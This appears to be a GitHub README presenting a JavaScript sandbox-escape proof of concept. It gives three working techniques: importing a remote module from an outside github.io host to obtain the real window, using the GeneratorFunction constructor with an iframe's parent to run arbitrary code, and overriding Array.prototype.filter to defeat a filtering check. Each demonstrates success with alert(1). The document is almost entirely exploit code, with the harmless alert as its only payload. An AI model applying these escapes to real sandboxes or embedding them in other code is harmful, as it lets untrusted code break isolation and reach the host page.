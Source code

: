 # Sandbox Escape PoC

## Dynamic module import
```javascript
const modulePromise = import ("https://lgfrbcsgo.github.io/sandbox-escape-poc/module.js")

modulePromise.then(module => {
  const window = module.default()
  window.alert(1)
})
```

## GeneratorFunction
```javascript
function exec(code) {
  class Class {
    * generator () {}
  }
  
  const GeneratorFunction = Class.prototype.generator.constructor

  const { value } = GeneratorFunction([], code)().next()
  return value
}

exec(`
  const frame = document.createElement("iframe")
  document.body.appendChild(frame)
  const window = frame.contentWindow.parent
  window.alert(1)
`)
```

## Overriding Array Protoype

```javascript
[].__proto__.filter = () => []
```

On the next execution this works.
```javascript
alert(1)
```

